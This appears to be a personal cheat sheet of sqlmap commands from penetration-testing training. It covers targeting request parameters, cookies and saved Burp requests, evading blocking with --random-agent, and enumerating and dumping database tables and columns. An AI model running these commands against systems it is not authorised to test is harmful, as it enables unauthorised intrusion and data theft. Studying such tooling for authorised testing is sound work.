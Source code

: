 -----
# Running SQLMap on HTTP Request
-----
```bash
sqlmap -u $URL --batch 
--batch: skip users' inputs and use the default option
```

#### curl commands
- On the inspector, right click the request and "Copy as cURL"
- Paste it into sqlmap command
 ```bash
sqlmap $CURL_COMMAND
```

#### GET/POST Requests
```bash
# GET Request
sqlmap -u $URL
```
```
# POST Request
sqlmap $URL --data 'uid=1&name=test'

# If we know uid is a clear indicator of the vulnerability, we can use *
sqlmap $URL --data 'uid=1*&name=test'
```

#### Full HTTP Requests
- When the request becomes complex, we can use BurpSuite to export the request and use sqlmap with the saved request file.
```bash
sqlmap -r request.txt

# we can also add * to the fields in the request file wher ewe think is vulnerable to the injection
```

#### Custom SQLMap Requests

```shell-session
# --cookie option
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
NOTE: when there is no parameter (http://134.209.176.83:30960/case3.php), we can use -p Cookie to verify the 

# -H/--header option
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'

# --random-agent
Randomize the agent used. A lot of defensive applications will block requests from the same agent. Hence, changing the agent is needed.

# --mobile
sqlmap can inmiate mobile behavior with this flag

# --method
specify sqlmap to use other method rather than GET & POST
```

-----
# ENUMERATION
-----
- Basic
```bash
sqlmap -u $URL --banner --current-user --current-db --is-dba
```
- Table Enumeration
```bash
sqlmap -u $URL --tables -D $DATABASE
```
- Table//Row Enumeration
```bash
sqlmap -u $URL --dump -T $TABLE -D $DATABASE -C column1, column2,column3
```
- Database schema Enumeration
```bash
sqlmap -u $URL --schema
```
- Conditional Enumeration
```bash
sqlmap -u $URL --dump -T $TABLE -D $DATABASE --where="name LIKE 'f%'"
```